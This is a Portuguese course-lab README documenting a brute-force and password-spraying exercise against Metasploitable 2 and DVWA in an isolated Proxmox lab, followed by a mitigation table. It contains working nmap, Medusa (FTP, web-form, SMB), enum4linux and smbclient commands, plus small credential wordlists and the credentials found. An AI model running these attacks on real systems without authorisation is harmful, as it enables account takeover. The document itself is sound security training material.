# Desafio DIO — Auditoria de Segurança e Simulação de Força Bruta com Kali Linux e Medusa

> [!IMPORTANT]
> **Aviso Legal (Uso Educacional):** Todos os testes e comandos documentados neste repositório foram executados exclusivamente em um **ambiente de laboratório isolado e controlado** (Proxmox VE), utilizando máquinas virtuais intencionalmente vulneráveis (Metasploitable 2 / DVWA) para fins de estudo em cibersegurança defensiva e ofensiva. Nunca execute essas técnicas em sistemas sem autorização prévia e formal.

## Sobre o Projeto

Este repositório documenta a implementação prática do desafio de cibersegurança da **Digital Innovation One (DIO)**: simular cenários controlados de ataques de força bruta e *password spraying* utilizando **Kali Linux**, **Medusa**, **Nmap**, **enum4linux** e **smbclient**, validar os acessos obtidos e propor medidas concretas de mitigação (*hardening*).

---

## Arquitetura do Ambiente

O laboratório foi provisionado no **Proxmox VE 9.2.2** utilizando uma rede interna isolada (`localnetwork`), garantindo que o tráfego permaneça restrito às VMs do ambiente de testes:

| VM ID | Nome | Sistema / Função | Endereço IP |
| :--- | :--- | :--- | :--- |
| `102` | `kali-dio` | Kali Linux (Estação de Auditoria / Atacante) | `10.77.0.10` |
| `103` | `metasploitable2-dio` | Metasploitable 2 + DVWA (Alvo Vulnerável) | `10.77.0.20` |

```text
[102: kali-dio (10.77.0.10)] <--- Rede Interna (localnetwork) ---> [103: metasploitable2-dio (10.77.0.20)]
```



---

## Estrutura do Repositório

```text
.
├── README.md                 # Documentação completa do laboratório, comandos, evidências e mitigações
├── images/                   # Capturas de tela com as evidências de cada etapa
│   ├── 01-proxmox-lab.png
│   ├── 02-nmap-recon.png
│   ├── 03-wordlists.png
│   ├── 04-medusa-ftp.png
│   ├── 05-ftp-validacao.png
│   ├── 06-dvwa-cookie-session.png
│   ├── 07-medusa-dvwa-e-smb.png
│   ├── 08-smbclient-e-enum4linux.png
│   ├── 09-enum4linux-usuarios.png
│   ├── 10-enum4linux-shares-policy.png
│   └── 11-smbclient-validacao.png
├── wordlists/
│   ├── user.txt              # Lista controlada de usuários para testes
│   └── passwords.txt         # Lista controlada de senhas comuns para testes
└── .gitignore
```

---

## Etapa 1 — Reconhecimento e Mapeamento de Serviços

A partir do `kali-dio` (`10.77.0.10`), foi realizada a varredura de portas e detecção de versões no alvo (`10.77.0.20`) com o **Nmap**:

```bash
nmap -sV -p 21,22,80,445,139 10.77.0.20
```

**Serviços identificados:**
- `21/tcp` — `ftp` (`vsftpd 2.3.4`)
- `22/tcp` — `ssh` (`OpenSSH 4.7p1 Debian 8ubuntu1`)
- `80/tcp` — `http` (`Apache httpd 2.2.8 ((Ubuntu) DAV/2)` hospedando o DVWA)
- `139/tcp` e `445/tcp` — `netbios-ssn` (`Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`)



---

## Etapa 2 — Preparação das Wordlists

Foram criadas duas wordlists enxutas e controladas em `wordlists/user.txt` e `wordlists/passwords.txt` para simular credenciais fracas e padrão de laboratório:

- **`wordlists/user.txt`:** `admin`, `root`, `user`, `msfadmin`, `service`, `postgres`, `guest`
- **`wordlists/passwords.txt`:** `123456`, `password`, `admin`, `msfadmin`, `service`, `toor`, `12345`



---

## Etapa 3 — Cenários de Ataque Simulados

### Cenário 1: Força Bruta em FTP (`medusa -M ftp`)

O serviço FTP (`vsftpd 2.3.4`) transmite credenciais em texto claro e, sem bloqueio contra tentativas sucessivas, fica vulnerável a ataques de dicionário.

**Comando executado:**
```bash
medusa -h 10.77.0.20 -U wordlists/user.txt -P wordlists/passwords.txt -M ftp -t 4
```

**Credenciais descobertas:**
- `User: msfadmin` | `Password: msfadmin [SUCCESS]`
- `User: service` | `Password: service [SUCCESS]`



**Validação do acesso:**
```bash
ftp 10.77.0.20
```
Autenticação confirmada com `230 Login successful.` utilizando `msfadmin`.



---

### Cenário 2: Automação em Formulário Web (DVWA)

Ao analisar o comportamento HTTP do DVWA em `http://10.77.0.20/dvwa/`:
- A tela `dvwa/login.php` responde com redirecionamento **HTTP 302** tanto no sucesso quanto na falha, fazendo o módulo `web-form` do Medusa v2.3 abortar com `error code 302`.
- Já o módulo específico de laboratório **`dvwa/vulnerabilities/brute/`** (com **DVWA Security** configurado em **`low`**) responde com **HTTP 200 OK**, retornando `"Username and/or password incorrect."` em caso de falha.

Com a sessão autenticada no navegador, foi obtido o cookie `PHPSESSID` via DevTools (**Storage → Cookies**) e configurado `security=low`:



**Comando executado:**
```bash
medusa -h 10.77.0.20 -U wordlists/user.txt -P wordlists/passwords.txt -M web-form \
  -m FORM:"dvwa/vulnerabilities/brute/" \
  -m FORM-DATA:"get?username=&password=&Login=Login" \
  -m DENY-SIGNAL:"Username and/or password incorrect." \
  -m CUSTOM-HEADER:"Cookie: PHPSESSID=790fe55846815eb473aef9df5819839c; security=low" \
  -t 4 -f
```

**Credencial descoberta:**
- `User: admin` | `Password: password [SUCCESS]`

*(Visível na parte inferior da captura abaixo, junto ao resultado do cenário SMB.)*

---

### Cenário 3: Enumeração de Usuários e Password Spraying em SMB

Diferente da força bruta tradicional (muitas senhas contra um usuário), o **Password Spraying** testa **uma única senha comum contra vários usuários**, reduzindo a chance de acionar políticas de bloqueio de conta (*Account Lockout*).

#### 3.1 Enumeração anônima com `smbclient` e `enum4linux`
```bash
# Listagem de compartilhamentos via null session
smbclient -L //10.77.0.20 -N

# Enumeração completa de usuários, grupos, shares e política de senhas
enum4linux -a 10.77.0.20 | tee enum4_output.txt
```

A enumeração sem autenticação (*Anonymous login successful*) revelou:
- **Compartilhamentos:** `print$`, `tmp` (`Mapping: OK`, `Listing: OK`), `opt`, `IPC$`, `ADMIN$` (`Samba 3.0.20-Debian`).
- **Usuários locais:** `user`, `root`, `postgres`, `msfadmin`, `service`, `klog`, `sys`, entre outros.
- **Política de senhas do domínio `METASPLOITABLE`:** tamanho mínimo de senha `5`, sem complexidade obrigatória e contador de bloqueio de `30 minutes`.





#### 3.2 Password Spraying com Medusa (`smbnt`)
```bash
medusa -h 10.77.0.20 -U wordlists/user.txt -p msfadmin -M smbnt -t 4
```

**Credencial descoberta:**
- `User: msfadmin` | `Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]`



#### 3.3 Validação do acesso via `smbclient`
```bash
smbclient -L //10.77.0.20/tmp -U msfadmin
```
Com autenticação válida, além dos compartilhamentos padrão, passou a ser exibido o diretório pessoal (`msfadmin - Disk - Home Directories`).



---

## Etapa 4 — Medidas de Mitigação e Recomendações

| Serviço / Vetor | Vulnerabilidade Explorada | Medidas de Mitigação Recomendadas |
| :--- | :--- | :--- |
| **FTP (Porta 21)** | Autenticação em texto claro, credenciais padrão (`msfadmin`, `service`) e ausência de limite de tentativas | Substituir FTP por **SFTP** (via SSH) ou **FTPS**; desabilitar login anônimo; implementar bloqueio automático por IP (`fail2ban`); exigir política de senhas fortes e únicas. |
| **Aplicação Web (DVWA)** | Ausência de *rate limiting*, CAPTCHA, MFA e proteção contra automação em nível `low` | Aplicar **rate limiting** por IP/conta; exigir **MFA** (autenticação multifator); utilizar **tokens anti-CSRF**; implementar bloqueio progressivo (*exponential backoff*) após falhas; trafegar sempre via **HTTPS**. |
| **SMB (Portas 139/445)** | Enumeração anônima (*null session*), Samba legado (`3.0.20`) e senhas fracas/reutilizadas | Desabilitar **SMBv1**; restringir enumeração anônima (`restrict anonymous = 2` no Samba); aplicar **Account Lockout Policy** e complexidade mínima de senhas; isolar portas SMB com firewall (nunca expor à internet); monitorar logs de falhas de logon. |

---

## Aprendizados e Reflexões

- **Reconhecimento direciona o ataque:** o `nmap` e o `enum4linux` permitiram mapear versões exatas e extrair usuários válidos reais antes mesmo de iniciar o Medusa, reduzindo tentativas inúteis.
- **Comportamento real de aplicações web:** entender códigos de status HTTP (`302` vs `200 OK`) e gerenciamento de cookies (`PHPSESSID`, `security=low`) foi fundamental para configurar corretamente o módulo `web-form`.
- **Força bruta vs. Password Spraying:** testar uma senha comum contra vários usuários contorna bloqueios simples por conta; apenas a combinação de **senhas fortes + MFA + monitoramento de logs + segmentação de rede** (defesa em profundidade) mitiga o risco de forma eficaz.

---

## Referências

- [Kali Linux – Site Oficial](https://www.kali.org/)
- [Medusa – Documentação Oficial](http://www.foofus.net/jmk/medusa/medusa.html)
- [Nmap – Manual Oficial](https://nmap.org/book/)
- [DVWA – Damn Vulnerable Web Application](http://www.dvwa.co.uk/)
- [OWASP – Brute Force Attack](https://owasp.org/www-community/attacks/Brute_force_attack)
